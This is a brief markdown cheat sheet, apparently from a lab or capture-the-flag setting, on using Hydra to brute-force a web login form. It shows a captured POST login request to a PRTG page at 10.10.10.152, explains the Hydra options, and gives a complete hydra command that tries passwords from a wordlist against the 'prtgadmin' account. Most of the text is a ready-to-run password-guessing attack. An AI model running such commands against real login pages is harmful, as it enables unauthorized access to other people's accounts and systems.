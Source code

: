 # Hydra

### http brute

The request in burp suite looks like:

```
POST /public/checklogin.htm HTTP/1.1
Host: 10.10.10.152
Content-Length: 39
Cache-Control: max-age=0
Origin: http://10.10.10.152
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=GA1.4.1366182311.1585918308; _gid=GA1.4.333900560.1586085370
Connection: close

loginurl=&username=admin&password=admin
```

-l prtgadmin  | use login prtgadmin
-P /usr/share/john/password.lst | use passwords from /usr/share/john/password.lst
http-post-form | for use POST requests
> "/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed" | 

```bash
hydra -v -l prtgadmin -P /usr/share/john/password.lst 10.10.10.152 http-post-form "/public/checklogin.htm:loginurl=&username=^USER^&password=^PASS^:Your login has failed" -t 5 -I -
```
